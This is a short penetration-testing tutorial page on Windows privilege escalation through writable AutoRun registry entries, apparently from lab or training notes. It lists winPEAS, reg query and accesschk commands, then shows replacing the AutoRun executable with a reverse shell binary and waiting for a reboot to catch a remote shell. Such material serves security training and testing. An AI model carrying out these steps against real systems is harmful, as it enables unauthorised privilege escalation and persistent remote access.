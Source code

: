 # AutoRuns

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system \(or wait for it to be restarted\) you may be able to escalate privileges.

Use winPEAS to check for writable AutoRun executables:

```text
winPEASany.exe quiet applicationsinfo
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

Alternatively, we could manually enumerate the AutoRun executables:

```text
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```text
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![](../../../../.gitbook/assets/image%20%28150%29.png)

The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```text
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

Copy our reverse shell executable to overwrite the AutoRun executable:

```text
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
```

![](../../../../.gitbook/assets/image%20%28154%29.png)

now start a listener on attacker machine and wait for the system to reboot, the autorun task will start and you will get a remote shell.

{% hint style="info" %}
on windows 10 the exploit will be triggered with the privileges of the last logged on user. so it is possible that we get another shell with the same user privileges. 
{% endhint %}





